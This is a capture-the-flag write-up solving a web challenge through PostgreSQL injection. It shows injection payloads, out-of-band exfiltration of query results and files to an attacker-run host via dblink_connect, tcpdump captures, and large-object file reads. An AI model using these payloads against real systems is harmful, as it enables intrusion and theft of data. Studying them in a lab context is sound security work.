




# hr_admin_module
---
**Points:** 1000 | **Solves:** 4/1734 | **Category:** Web

While tying down the application the developer may have had trouble revoking the permission on one or two functions. Let's hope this got sorted. At least he made sure the site feels really fast.

http://challenges.fbctf.com:8081



---

[Bahasa Indonesia](#bahasa-indonesia)

## English
*Solved after the CTF ended.*

### Summary
- We can trigger PostgreSQL Injection by using hidden `user_search` parameter.
- Query execution occurs in the background or asynchronously (probably with `dblink`) so the website only displays a warning message when there is a syntax or semantic error in the query.
- We can't perform In-Band SQL Injection or Inferential (Blind) SQL Injection because everything is run in the background (we can only know if the syntax and semantic are correct or not).
- Out-of-Band SQL Injection can be performed by using SQL SSRF via `dblink_connect` to establish a connection to our remote server so we can get the query result through DNS request or raw network dump (`(SELECT dblink_connect('host=HOST user=' || (QUERY) || ' password=PASSWORD dbname=DBNAME'))`).
- The current PostgreSQL user is allowed to use `lo_import` to load a file into `pg_largeobject` catalog but doesn't have permission to perform `SELECT` on `pg_largeobject` nor using `lo_get` for new object's `oid`.
- We can get the list of all `oid` through `pg_largeobject_metadata` and then try to use `lo_get` for old `oid` to see if secret/flag file has been loaded before and the user used is allowed to load it.
- The flag file has been loaded in the past with `oid` 16444 so we can get it by using `lo_get(16444)`!

### Detailed Steps

This website has a simple dashboard with a feature to search employees (`?employee_search=`). From the error message, we can know if there is a file named `secret` in `/var/lib/postgresql/data/` so we can assume if that file is the flag and this website uses PostgreSQL. Another feature for searching user seems disabled on the front-end but we can still access it by requesting to its parameter. We can know the parameter by viewing it in the source code.



Querying user with this feature has produced nothing. No results or whatsoever on the website. But, if the search value contains single quote and we refresh the page again, the website will displays a warning message. Seems like it uses session-based warning message and delay to prevent automatic scanner.



Closing the value with SQL comment will produce no warning. Again, we might need to refresh the page.



We can try several PostgreSQL queries to find out which query that will produce the warning message and not. To make sure, we can refresh the page multiple times for each query.

- `asd' and 1=0 --`, no warning
- `asd' and 1=1 --`, no warning
- `asd' order by 1 --`, no warning
- `asd' order by 2 --`, no warning
- `asd' order by 3 --`, warning
- `asd' union select 1,2 --`, warning
- `asd' union select 1,'a' --`, no warning
- `asd' union select 1,pg_sleep(10) --`, warning
- `asd' union select 1,cast(pg_sleep(10) as text) --`, no warning (without any delay)
- `asd' union select 1,'a' from pg_database --`, no warning
- `asd' union select 1,'a' from farisv --`, warning
- `asd' union select 1,chr(65) --`, no warning
- `asd' union select 1,chr(-65) --`, no warning

From obeserved behaviors, we can assume if the warning message only showed up when there is a syntax or semantic error in the query. If we select a non-existing database it will shows a warning message because SQL will check for table name, field name, data type, etc. during semantic check. But, it will not shows a warning message when `chr(-65)` is performed because it is syntactically and semantically correct although it will cause error during execution. Because the `pg_sleep` also doesn't cause delay, we can safely assume if query execution occurs in the background or asynchronously.

Since no any page changes other than warning message for syntax/semantic error and no meaningful inferential observation can be performed, we can't use common SQL Injection tricks like In-Band SQL Injection or Inferential/Blind SQL Injection.

Quick googling about running PostgreSQL query asynchronously or in the background yield an information about `dblink` (https://www.postgresql.org/docs/11/dblink.html). It's a module that supports connections to other PostgreSQL databases (or to the same database) from within a database session. It provides `dblink_send_query` to sends a query to be executed  asynchronously. This module is not enabled by default but there is a high possibility that this module is enabled in this case.

Query that contains `dblink_connect` doesn't cause warning so `dblink` might be enabled.


Normally, `dblink_connect` can be used to open a persistent connection to a remote PostgreSQL database. Example: `SELECT dblink_connect('host=HOST user=USER password=PASSWORD dbname=DBNAME')`. Because we can control the parameter of this function, we can perform SQL Server Side Request/Connection Forgery to our own host. That means we can perform Out-of-Band SQL Injection to exfiltrate data. At least, there are two ways to get the data from server:

1. Set up a DNS server and then trigger the connection to `[data].our.domain` so we can see the data in the log or in DNS network packet.
2. Set up a public PostgreSQL server, monitor incoming packet to PostgreSQL port, and then trigger the connection to our host with exfiltrated data as `user`/`dbname`. By default, PostgreSQL doesn't use SSL for communication so we can see `user`/`dbname` as plaintext in the network.

Second way is easier because we don't need any domain. We only need to set up a server with public IP, install PostgreSQL, set the PostgreSQL service to listen to \*/0.0.0.0, and run network dumper (e.g. tcpdump) to monitor the traffic to PostgreSQL port (5432 by default).

To set PostgreSQL so it will listen to public, set `listen_addresses` in `postgresql.conf` to `*`.

```
listen_addresses = '*'
```

To monitor the incoming traffics, run `tcpdump` to monitor port 5432.

```
sudo tcpdump -nX -i eth0 port 5432
```

To see if we get the connection from target, we can try to use this query:

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=farisv password=postgres dbname=hellofromfb')) --
```

If success, we got a nice piece of network packet with `user` and `dbname`.

```
17:14:11.267060 IP [54.185.163.254.50968] > [REDACTED]: Flags [P.], seq 1:43, ack 1, win 229, options [nop,nop,TS val 970078525 ecr 958693110], length 42
    0x0000:  4500 005e 9417 4000 2706 248c 36b9 a3fe  E..^..@.'.$.6...
    0x0010:  9de6 2259 c718 2061 5889 142a 9f8a cb5d  .."Y...aX..*...]
    0x0020:  8018 00e5 1701 0000 0101 080a 39d2 393d  ............9.9=
    0x0030:  3924 7ef6 0000 002a 0003 0000 7573 6572  9$~....*....user
    0x0040:  0066 6172 6973 7600 6461 7461 6261 7365  .farisv.database
    0x0050:  0068 656c 6c6f 6672 6f6d 6662 0000       .hellofromfb.
```

Then, we can proceed to exfiltrate the database using some PostgreSQL queries. Note that for any query result that contains whitespaces, we need to convert the result to hex/base64 with `encode` function or replace the whitespace to other character with `replace` function because it will causes execution error in `dblink_connect`.

Get the list of schema:

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(schema_name,':') FROM information_schema.schemata) || ' password=postgres dbname=postgres')) --
```

```
17:36:46.538178 IP 54.185.163.254.51018 > [REDACTED]: Flags [P.], seq 1:70, ack 1, win 229, options [nop,nop,TS val 971433789 ecr 960048322], length 69
    0x0000:  4500 0079 ecd5 4000 2706 cbb2 36b9 a3fe  E..y..@.'...6...
    0x0010:  9de6 2259 c74a 2061 1e74 4769 b404 803d  .."Y.J.a.tGi...=
    0x0020:  8018 00e5 2710 0000 0101 080a 39e6 e73d  ....'.......9..=
    0x0030:  3939 2cc2 0000 0045 0003 0000 7573 6572  99,....E....user
    0x0040:  0070 7562 6c69 633a 696e 666f 726d 6174  .public:informat
    0x0050:  696f 6e5f 7363 6865 6d61 3a70 675f 6361  ion_schema:pg_ca
    0x0060:  7461 6c6f 6700 6461 7461 6261 7365 0070  talog.database.p
    0x0070:  6f73 7467 7265 7300 00                   ostgres.
```

Get the list of tables in current schema:

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(tablename, ':') FROM pg_catalog.pg_tables WHERE schemaname=current_schema()) || ' password=postgres dbname=postgres')) --
```

```
17:38:30.515438 IP 54.185.163.254.51026 > [REDACTED]: Flags [P.], seq 1:42, ack 1, win 229, options [nop,nop,TS val 971537775 ecr 960152304], length 41
    0x0000:  4500 005d f371 4000 2706 c532 36b9 a3fe  E..].q@.'..26...
    0x0010:  9de6 2259 c752 2061 8dd4 e226 24a3 a5c5  .."Y.R.a...&$...
    0x0020:  8018 00e5 fe2b 0000 0101 080a 39e8 7d6f  .....+......9.}o
    0x0030:  393a c2f0 0000 0029 0003 0000 7573 6572  9:.....)....user
    0x0040:  0073 6561 7263 6865 7300 6461 7461 6261  .searches.databa
    0x0050:  7365 0070 6f73 7467 7265 7300 00         se.postgres.
```

Count the rows in `searches` table.

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT COUNT(*) FROM searches) || ' password=postgres dbname=postgres')) --
```

```
17:42:39.511643 IP 54.185.163.254.51034 > [REDACTED]: Flags [P.], seq 1:35, ack 1, win 229, options [nop,nop,TS val 971786760 ecr 960401280], length 34
    0x0000:  4500 0056 7982 4000 2706 3f29 36b9 a3fe  E..Vy.@.'.?)6...
    0x0010:  9de6 2259 c75a 2061 5ec0 7df0 8611 357d  .."Y.Z.a^.}...5}
    0x0020:  8018 00e5 f855 0000 0101 080a 39ec 4a08  .....U......9.J.
    0x0030:  393e 8f80 0000 0022 0003 0000 7573 6572  9>....."....user
    0x0040:  0030 0064 6174 6162 6173 6500 706f 7374  .0.database.post
    0x0050:  6772 6573 0000                           gres.
```

Seems like it only has one empty table in the current schema and the flag is not in database. By the hint on the website, we may need to exfiltrate the data from `/var/lib/postgresql/data/secret`. If we try to use `pg_read_file` or `pg_read_binary_file` to read the file, we will not get any incoming connection so the current user may not have permission to use those functions.

Other alternative to read the file is using large objects (https://www.postgresql.org/docs/11/lo-funcs.html). We can use `lo_import` to load a file content to `pg_largeobject` catalog. If the query is success, we will get the object's `oid`.

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT lo_import('/var/lib/postgresql/data/secret')) || ' password=postgres dbname=postgres')) --
```

```
17:54:51.963925 IP 54.185.163.254.51046 > [REDACTED]: Flags [P.], seq 1:39, ack 1, win 229, options [nop,nop,TS val 972519214 ecr 961133706], length 38
    0x0000:  4500 005a 071f 4000 2706 b188 36b9 a3fe  E..Z..@.'...6...
    0x0010:  9de6 2259 c766 2061 26fb c8a7 bbb3 fe01  .."Y.f.a&.......
    0x0020:  8018 00e5 2272 0000 0101 080a 39f7 772e  ...."r......9.w.
    0x0030:  3949 bc8a 0000 0026 0003 0000 7573 6572  9I.....&....user
    0x0040:  0032 3436 3638 0064 6174 6162 6173 6500  .24668.database.
    0x0050:  706f 7374 6772 6573 0000                 postgres..
```

We got 24668 as `oid` so it means that we can use `lo_import` function. Unfortunately, we will not get any results if we try to select the content of large object using `lo_get(24668)` or directly accessing `pg_largeobject` catalog. Seems like the current user doesn't have permission to read the content of new object.

After reading the documentation of large objects in PostgreSQL, we can know if large objects can has ACL (Access Control List). That means, if there is an old object with ACL that allows current user to read it, then we can exfiltrate that object's content.

We can get the list of available large object's `oid` by extracting from `pg_largeobject_metadata`.

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(cast(l.oid as text), ':') FROM pg_largeobject_metadata l) || ' password=postgres dbname=postgres')) --
```

```
18:06:57.172285 IP 54.185.163.254.51052 > [REDACTED]: Flags [.], seq 1:2897, ack 1, win 229, options [nop,nop,TS val 973244413 ecr 961858878], length 2896
    0x0000:  4500 0b84 7adf 4000 2606 339e 36b9 a3fe  E...z.@.&.3.6...
    0x0010:  9de6 2259 c76c 2061 8d76 e934 10c9 3972  .."Y.l.a.v.4..9r
    0x0020:  8010 00e5 a66d 0000 0101 080a 3a02 87fd  .....m......:...
    0x0030:  3954 cd3e 0000 1c94 0003 0000 7573 6572  9T.>........user
    0x0040:  0031 3635 3731 3a31 3634 3339 3a31 3635  .16571:16439:165
    0x0050:  3732 3a31 3634 3431 3a31 3634 3432 3a31  72:16441:16442:1
    0x0060:  3733 3732 3a31 3634 3434 3a31 3634 3435  7372:16444:16445
    0x0070:  3a31 3831 3534 3a31 3733 3830 3a31 3737  :18154:17380:177
    0x0080:  3038 3a31 3635 3737 3a31 3634 3530 3a31  08:16577:16450:1
    0x0090:  3634 3531 3a31 3634 3532 3a31 3634 3533  6451:16452:16453

.....
.....
.....
```

We got a bunch of `oid`s. We can try use `lo_get` to load the object's content. For example, `lo_get(16439)` will load the content of `/etc/passwd`. If we want to load it, we need to handle the whitespaces first (e.g. convert to hex/base64). Because the result of `lo_gets` is `bytea`, we need to convert it to `UTF8` so it can be appended in the query.

We can try to load some objects with lowest `oid`. The flag is in object with `oid` 16444. No whitespaces in the flag so we can just display it as is.

To load the flag:

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT convert_from(lo_get(16444), 'UTF8')) || ' password=postgres dbname=postgres')) --
```

```
18:13:01.953251 IP 54.185.163.254.51058 > [REDACTED]: Flags [P.], seq 1:65, ack 1, win 229, options [nop,nop,TS val 973609199 ecr 962223650], length 64
    0x0000:  4500 0074 bc7d 4000 2706 fc0f 36b9 a3fe  E..t.}@.'...6...
    0x0010:  9de6 2259 c772 2061 0b27 4451 16b1 7f33  .."Y.r.a.'DQ...3
    0x0020:  8018 00e5 92bb 0000 0101 080a 3a08 18ef  ............:...
    0x0030:  395a 5e22 0000 0040 0003 0000 7573 6572  9Z^"...@....user
    0x0040:  0066 627b 4040 646e 735f 3378 6669 6c5f  .fb{@@dns_3xfil_
    0x0050:  6630 725f 7468 655f 7731 6e21 2140 407d  f0r_the_w1n!!@@}
    0x0060:  0064 6174 6162 6173 6500 706f 7374 6772  .database.postgr
    0x0070:  6573 0000                                es..
```

Flag: **fb{@@dns_3xfil_f0r_the_w1n!!@@}**


## Bahasa Indonesia
TODO
